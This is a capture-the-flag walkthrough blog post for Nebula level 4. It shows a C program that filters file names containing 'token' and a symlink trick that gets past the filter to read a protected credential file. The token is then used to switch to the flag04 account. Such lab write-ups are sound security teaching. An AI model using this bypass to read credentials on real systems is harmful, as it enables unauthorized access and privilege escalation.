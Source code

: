 ```yaml
---
layout: post
title:  "Exploit Excercises - Nebula: Level 4"
date:   2016-07-30 12:34:00 +0200
categories: exercises security
---
```


> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)

~~~ c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
~~~

* * *

The only check this program does seems to be by filename. If the filename contains the string `token`, it will not let us read it.

~~~ bash
level04@nebula:~$ /home/flag04/flag04 /home/flag04/token
You may not access '/home/flag04/token'
~~~

Let's work around this with a symlink:

~~~ bash
level04@nebula:~$ ln -s /home/flag04/token ~/nekot
level04@nebula:~$ /home/flag04/flag04 ~/nekot
06508b5e-8909-4f38-b630-fdb148a848a2
~~~

Let's try to use the token to become the `flag04` user!

~~~ bash
level04@nebula:~$ su - flag04
Password:
flag04@nebula:~$ getflag
You have successfully executed getflag on a target account
~~~

Let's do [level 5]({% post_url 2016-07-30-exploit-exercises-level-5 %})!
